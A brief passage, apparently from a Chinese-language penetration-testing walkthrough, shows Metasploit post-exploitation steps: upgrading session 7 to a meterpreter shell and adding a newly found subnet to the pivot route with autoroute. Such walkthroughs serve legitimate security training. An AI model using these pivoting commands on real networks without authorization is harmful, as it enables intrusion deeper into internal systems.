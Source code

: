 ![alt text](image-32.png)

由结果可以发现新子网存在于会话7中，我们将会话7升级为meterpreter shell

```
# 将会话 7 升级为 meterpreter shell
sessions -u 7
# 新的 meterpreter shell 会话编号此处为 8
sessions -i 8
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.169.85.0/24
run autoroute -p
#通过 background指令将其推至后台运行
```

![alt text](image-33.png)
